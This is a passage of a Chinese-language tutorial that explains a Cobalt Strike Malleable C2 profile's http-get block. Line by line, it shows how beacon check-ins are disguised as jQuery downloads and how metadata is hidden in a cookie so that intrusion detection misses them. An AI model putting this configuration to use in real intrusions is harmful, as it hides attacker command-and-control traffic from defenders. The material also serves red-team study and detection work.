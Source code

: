 

## 常用代码块

### http-get	

这部分配置信标发送到服务器的 HTTP GET 请求。这通常用于信标的 "check-in" 操作，即信标定期联系服务器以获取指令。`http-get` 配置可以包括请求的URI、请求头、请求参数等，以及服务器响应中应该包含的数据。这使得通信看起来像是正常的网络流量，帮助信标躲避入侵检测系统的侦测

如下代码定义了CS的HTTP GET请求的配置，分为两部分，`client`部分描述了Beacon发出的请求，`server`部分描述了C2服务器的响应

在`metadata`块中，`base64url`表示Beacon将元数据进行Base64编码；`prepend "__cfduid="`表示在编码后的元数据前添加字符串`"__cfduid="`；`header "Cookie";`表示将元数据放入"Cookie"头部字段发送

```apl
http-get {

    # 设置Beacon与C2服务器之间通信的URL
    set uri "/jquery-3.3.1.min.js";
    
    # 设置HTTP请求的类型
    set verb "GET";

    client {

        # 设置HTTP请求头的字段
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";

        metadata {
            # 设置元数据编码为base64url
            base64url;
            
            # 设置元数据前缀
            prepend "__cfduid=";
            
            # 设置携带元数据的HTTP头字段
            header "Cookie";
        }
    }

    server {

        # 设置服务器回应的HTTP头字段
        header "Content-Type" "application/octet-stream";

        output {
            # 设置服务器回应的数据编码为base64
            base64;
            
            # print指令告诉Cobalt Strike在回应中直接打印数据，不添加任何装饰
            print;
        }
}
```
